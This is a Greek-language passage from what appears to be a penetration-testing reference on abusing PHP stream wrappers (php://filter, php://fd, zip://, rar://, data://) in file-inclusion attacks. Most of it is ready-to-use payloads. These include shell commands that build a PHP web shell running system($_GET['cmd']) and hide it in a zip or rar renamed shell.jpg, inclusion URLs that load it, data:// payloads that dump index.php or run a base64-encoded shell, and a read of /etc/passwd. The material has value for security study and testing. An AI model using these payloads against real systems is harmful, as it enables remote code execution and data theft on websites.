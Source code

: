 * Και προκειμένου να μπορέσουμε να αποκτήσουμε **περισσότερα δεδομένα** η ιδέα είναι να **παράγουμε 2 bytes σκουπιδιών στην αρχή** με **convert.iconv.UTF16.UTF16**, να εφαρμόσουμε **UCS-4LE** για να το **στραφεί με τα επόμενα 2 bytes**, και να **διαγράψουμε τα δεδομένα μέχρι τα σκουπίδια** (αυτό θα αφαιρέσει τα πρώτα 2 bytes του αρχικού κειμένου). Συνεχίστε να το κάνετε αυτό μέχρι να φτάσετε στο επιθυμητό bit για διαρροή.

Στην ανάρτηση διαρρεύθηκε επίσης ένα εργαλείο για να το εκτελεί αυτό αυτόματα: [php\_filters\_chain\_oracle\_exploit](https://github.com/synacktiv/php\_filter\_chains\_oracle\_exploit).

### php://fd

Αυτή η περιτύλιξη επιτρέπει την πρόσβαση σε περιγραφείς αρχείων που έχει ανοιχτούς η διαδικασία. Πιθανώς χρήσιμο για να εξάγετε το περιεχόμενο των ανοιχτών αρχείων:
```php
echo file_get_contents("php://fd/3");
$myfile = fopen("/etc/passwd", "r");
```
Μπορείτε επίσης να χρησιμοποιήσετε **php://stdin, php://stdout και php://stderr** για να αποκτήσετε πρόσβαση στους **file descriptors 0, 1 και 2** αντίστοιχα (δεν είμαι σίγουρος πώς αυτό θα μπορούσε να είναι χρήσιμο σε μια επίθεση)

### zip:// και rar://

Ανεβάστε ένα αρχείο Zip ή Rar με ένα PHPShell μέσα και αποκτήστε πρόσβαση σε αυτό.\
Για να μπορέσετε να εκμεταλλευτείτε το πρωτόκολλο rar, **πρέπει να ενεργοποιηθεί συγκεκριμένα**.
```bash
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php

# To compress with rar
rar a payload.rar payload.php;
mv payload.rar shell.jpg;
rm payload.php
http://example.com/index.php?page=rar://shell.jpg%23payload.php
```
### data://
```
http://example.net/?page=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data://text/plain,<?php phpinfo(); ?>
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
http://example.net/?page=data:text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data:text/plain,<?php phpinfo(); ?>
http://example.net/?page=data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```
Σημειώστε ότι αυτό το πρωτόκολλο περιορίζεται από τις ρυθμίσεις php **`allow_url_open`** και **`allow_url_include`**

